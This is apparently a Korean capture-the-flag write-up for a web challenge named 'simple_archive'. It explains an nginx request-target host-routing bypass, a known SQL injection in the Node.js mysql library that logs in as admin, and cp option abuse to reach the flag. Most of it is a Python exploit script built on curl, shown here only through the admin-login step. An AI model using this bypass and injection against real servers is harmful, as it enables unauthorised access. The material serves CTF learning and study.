 ```py
    print("FLAG:",FLAG)
```

#### simple_archive
stage 1

nginx에서는 path 부분에 /asdf 대신 http://asdf.com/asdf로 해도 작동합니다. server_name은 첫 번째로 path에서, 두 번째로 host에서 가져오기에 host와 server_name은 달라질 수 있습니다. 이를 이용하여 node에 접근할 수 있습니다.

stage 2

nodejs mysql 라이브러리의 well-known sql injection 취약점을 이용하여 admin으로 로그인할 수 있습니다.

stage3

cp 명령어 option을 통해 권한 없는 곳에 복사하여 error를 낸 후 계정 경로를 알아낸 후 복사하면 플래그를 획득할 수 있습니다.

##### ex.py
```py
import subprocess
import json
import base64
import os

BASE_URL = "http://local.sqli.kr:8000"
def send_request(url, body, cookie=False, file_flag=False):
    command = [
            "curl",
            "-i",
            "-XPOST",
            BASE_URL,
            "--request-target",
            url,
            "-H",
            "Host: wafzz"
    ]
    if cookie != False:
        command.append("-H")
        command.append(f"Cookie: {cookie}")
    if file_flag != False:
        command.append("-F")
        command.append("file=@./asdf.txt")
    else:
        command.append("-H")
        command.append("Content-Type: application/json")
        command.append("-d")
        command.append(json.dumps(body))
    proc = subprocess.run(
        command,
        capture_output=True,
        text=True,
    )
    assert proc.returncode == 0
    return proc.stdout

bypass_url = "http://asdf.node"

idpw = os.urandom(2).hex()

send_request(bypass_url + "/register", {"username":idpw,"password":idpw})
cookie = send_request(bypass_url + "/login", {"username":idpw,"password":idpw}).split("\n")[8].split(" ")[1]
#print(cookie)
send_request(bypass_url + "/upload", "asdf", cookie, True)
admin_cookie = send_request(bypass_url + "/login", {"username":"admin","password":{"password":"1"}}).split("\n")[8].split(" ")[1]
```
